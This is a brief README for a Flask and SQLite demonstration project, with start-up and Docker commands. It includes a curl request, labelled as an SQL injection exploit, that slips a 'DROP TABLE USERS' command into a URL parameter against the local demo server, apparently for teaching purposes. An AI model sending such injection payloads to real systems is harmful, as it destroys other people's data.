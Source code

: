 # flask_demo
Flask w\ SQL Light Demonstration

To start website:
```sh
python3 start.py
```

## Demo points
Docker commands
```sh
docker build -t flask_demo:local .
docker run --rm --network=host -p 5050:5050 --name flask_demo flask_demo:local
```

SQL Injection Exploit
```sh
curl -X PUT "http://localhost:5050/users/6;DROP%20TABLE%20USERS;--?firstName=test"
```
More info about exploit can be found <https://www.pythonforengineers.com/xkcd-style-sql-injection-hack-in-python/>
